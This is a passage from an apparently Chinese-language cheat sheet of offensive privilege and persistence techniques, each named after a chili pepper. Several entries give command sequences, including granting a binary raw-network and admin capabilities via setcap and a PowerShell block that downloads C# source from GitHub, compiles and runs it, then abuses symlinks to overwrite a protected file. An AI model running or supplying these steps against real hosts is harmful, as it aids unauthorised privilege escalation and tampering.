 方法：

-   `https://github.com/tyranid/blackhat-usa-2022-demos`
-   `Demo4.ps1`

### **Lemon Habanero**

域：No

Local Admin: Yes

操作系统：Linux

类型：Capabilities

方法：

-   `gcc -Wl,–no-as-needed -lcap-ng -o ambient ambient.c`
-   `sudo setcap cap_setpcap,cap_net_raw,cap_net_admin,cap_sys_nice+eip ambient`
-   `./ambient /bin/bash`

  

批注：[https://github.com/bsauce/kernel\_exploit\_series/tree/master/2-arbitrary\_rw](https://link.zhihu.com/?target=https%3A//github.com/bsauce/kernel_exploit_series/tree/master/2-arbitrary_rw)

### **Red Habanero**

域：No

Local Admin: Yes

操作系统：Windows

类型：NtSetInformationProcess + DLL side-loading

方法：

-   `BypassRtlSetProcessIsCritical.exe pid`

  

批注：没找到这个东西

### **Ghost Pepper**

域：No

Local Admin: Yes

操作系统：Windows

类型： **allow low privileged user accounts to create file system and registry symbolic links**

方法：

```powershell
 PS C:\> $code = (iwr https://raw.githubusercontent.com/usdAG/SharpLink/main/SharpLink.cs).content
 PS C:\> Add-Type $code                                                                                          
 PS C:\> $s = New-Object de.usd.SharpLink.Symlink(“C:\Users\Public\Example\link”, “C:\ProgramData\target.txt”)
 PS C:\> $s.Open()
 PS C:\> echo “Hello World :D” > C:\Users\Public\Example\link
 PS C:\> type C:\ProgramData\target.txt
 Hello World  
 PS C:\> $s.Close()
```
